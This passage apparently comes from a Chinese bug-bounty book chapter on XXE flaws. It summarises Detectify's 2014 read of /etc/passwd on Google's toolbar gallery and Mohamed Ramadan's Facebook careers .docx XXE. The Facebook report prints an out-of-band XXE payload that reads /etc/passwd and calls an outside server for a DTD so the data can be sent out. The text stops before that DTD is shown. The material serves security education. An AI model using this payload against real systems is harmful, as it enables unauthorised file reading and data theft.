 ### **Google 读取访问**

**难度：** 中

**网址：** *https://google.com/gadgets/directory?synd=toolbar/*

**来源：** *[`blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/`](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/)*

**报告日期：** 2014 年 4 月

**奖励金额：** $10,000

这个 Google 读取访问漏洞利用了 Google 工具栏按钮图库的一个特性，该特性允许开发者通过上传包含元数据的 XML 文件来定义自己的按钮。开发者可以搜索按钮图库，Google 会在搜索结果中显示按钮的描述。

根据 Detectify 团队的说法，当上传一个引用外部文件实体的 XML 文件到图库时，Google 会解析该文件并在按钮搜索结果中渲染内容。

结果，团队利用 XXE 漏洞渲染了服务器的*/etc/passwd*文件内容。至少，这证明恶意用户可以利用 XXE 漏洞读取内部文件。

#### ***要点***

即使是大公司也会犯错。无论谁拥有网站，只要网站接受 XML，始终需要测试 XXE 漏洞。读取*/etc/passwd*文件是展示漏洞对公司影响的一个好方法。

### **Facebook XXE 与 Microsoft Word**

**难度：** 难

**网址：** *[`facebook.com/careers/`](https://facebook.com/careers/)*

**来源：** 攻击安全博客

**报告日期：** 2014 年 4 月

**奖励金额：** $6,300

这个 Facebook XXE 漏洞比之前的示例更具挑战性，因为它涉及远程调用服务器。在 2013 年底，Facebook 修补了 Reginaldo Silva 发现的 XXE 漏洞。Silva 立即向 Facebook 报告了该漏洞，并请求允许将其升级为远程代码执行（这类漏洞在第十二章中介绍）。他认为远程代码执行是可能的，因为他可以读取服务器上的大多数文件，并打开任意的网络连接。Facebook 进行了调查并同意，支付了他$30,000。

结果，Mohamed Ramadan 在 2014 年 4 月挑战自己入侵 Facebook。他原本没想到另一个 XXE 漏洞的可能性，直到他发现 Facebook 的招聘页面，允许用户上传 *.docx* 文件。*.docx* 文件类型只是 XML 文件的一个归档。Ramadan 创建了一个 *.docx* 文件，用 7-Zip 打开提取其内容，并将以下负载插入其中的一个 XML 文件：

```
 <!DOCTYPE root [

➊ <!ENTITY % file SYSTEM "file:///etc/passwd">

➋ <!ENTITY % dtd SYSTEM "http://197.37.102.90/ext.dtd">

➌ %dtd;

➍ %send;

 ]>
```

如果目标启用了外部实体，XML 解析器将评估 `%dtd;` ➌ 实体，它会发起到 Ramadan 服务器 *http://197.37.102.90/ext.dtd* ➋ 的远程调用。该调用将返回以下内容，即 *ext.dtd* 文件的内容：
